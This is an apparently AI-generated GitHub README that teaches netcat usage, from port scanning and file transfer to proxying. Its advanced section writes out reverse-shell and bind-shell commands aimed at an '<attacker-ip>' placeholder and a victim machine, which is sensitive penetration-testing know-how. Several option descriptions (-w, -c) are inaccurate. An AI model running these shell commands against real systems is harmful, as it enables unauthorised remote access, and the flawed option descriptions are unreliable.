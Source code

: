 Here is the revised version of the **Netcat README** in `.md` format for GitHub, including a comprehensive table of options and a valid cheat sheet link.

---

# Netcat (nc) - The Swiss Army Knife of Networking

## What is Netcat?

Netcat (`nc`) is a powerful networking tool used for various network-related tasks such as port scanning, banner grabbing, file transfers, debugging, and establishing reverse or bind shells. It supports both **TCP** and **UDP** protocols, making it a versatile utility for penetration testers, network administrators, and developers.

---

## Installation

Make sure Netcat is installed on your system. To check:

```bash
nc -h
```

If not installed, use the following commands to install it:

- **Debian/Ubuntu**:  
  ```bash
  sudo apt-get install netcat
  ```
- **CentOS/Fedora**:  
  ```bash
  sudo yum install nc
  ```
- **macOS**:  
  ```bash
  brew install netcat
  ```

---

## Basic Usage

### 1. **Connecting to a TCP Port**

```bash
nc <target-ip> <port>
```
Example:
```bash
nc 192.168.1.100 80
```

### 2. **Sending Data to a Port**

```bash
echo "Hello" | nc <target-ip> <port>
```
Example:
```bash
echo "Hello" | nc 192.168.1.100 8080
```

### 3. **Port Scanning**

```bash
nc -zv <target-ip> <start-port>-<end-port>
```
Example:
```bash
nc -zv 192.168.1.100 1-1000
```

---

## Intermediate Usage

### 4. **Listening on a Port (Simple Server)**

```bash
nc -l <port>
```
Example:
```bash
nc -l 12345
```

### 5. **File Transfer**

#### Sending a file:
```bash
nc <target-ip> <port> < file.txt
```
Example:
```bash
nc 192.168.1.100 12345 < file.txt
```

#### Receiving a file:
```bash
nc -l <port> > file.txt
```
Example:
```bash
nc -l 12345 > file.txt
```

---

## Advanced Usage

### 6. **Creating a Reverse Shell**

#### On the attacker's machine (listening for shell):
```bash
nc -lvp 4444
```

#### On the victim’s machine (initiating the reverse shell):
```bash
/bin/bash -i | nc <attacker-ip> 4444
```

### 7. **Creating a Bind Shell**

#### On the target machine (setting up the shell):
```bash
nc -lvp 4444 -e /bin/bash
```

#### On the attacker’s machine (connecting to the shell):
```bash
nc <target-ip> 4444
```

---

## Other Useful Commands

### 8. **UDP Mode**

```bash
nc -u <target-ip> <port>
```
Example:
```bash
nc -u 192.168.1.100 12345
```

### 9. **Netcat as a Web Server**

```bash
while true; do echo -e 'HTTP/1.1 200 OK\n\nHello, World' | nc -l -p 80; done
```

### 10. **Proxying Traffic**

```bash
mkfifo /tmp/fifo
nc -l 12345 < /tmp/fifo | nc <target-ip> <target-port> > /tmp/fifo
```

---

## Netcat Options Table

| **Option**   | **Description**                                                |
|--------------|----------------------------------------------------------------|
| `-l`         | Listen mode, used to set up a listener on a specified port.    |
| `-p <port>`  | Specify the port for the listener or connection.               |
| `-v`         | Enable verbose mode to display detailed information.           |
| `-z`         | Zero-I/O mode, used for port scanning without sending data.    |
| `-u`         | Use UDP protocol (default is TCP).                             |
| `-e <cmd>`   | Execute the given command after connection (useful for shells).|
| `-w <secs>`  | Set timeout for idle connections (useful for keeping sessions alive). |
| `-n`         | No DNS resolution (use raw IP addresses only).                 |
| `-c <cmd>`   | Execute a command locally after connection closes.             |

---

## Netcat Cheat Sheet

> **You can access a detailed **[Netcat Cheat Sheet](https://pentest.sans.org/security-resources/posters/netcat-cheat-sheet/240/download)** by SANS, which provides more advanced usage tips for both Linux and Windows.**

> **One more CheatSheet With Best GUI **[Netcat Cheat Sheet](https://drive.google.com/file/d/1o0LZvm8lXNJQDShkcLxj_hFjwUDe4e81/view?usp=sharing)** Download it and enjoy!** 

---

## Conclusion

Netcat is a versatile and essential tool for network testing and penetration testing. Whether you are scanning ports, transferring files, or establishing a reverse shell, Netcat can handle the task with ease. Be sure to explore the full range of its capabilities responsibly.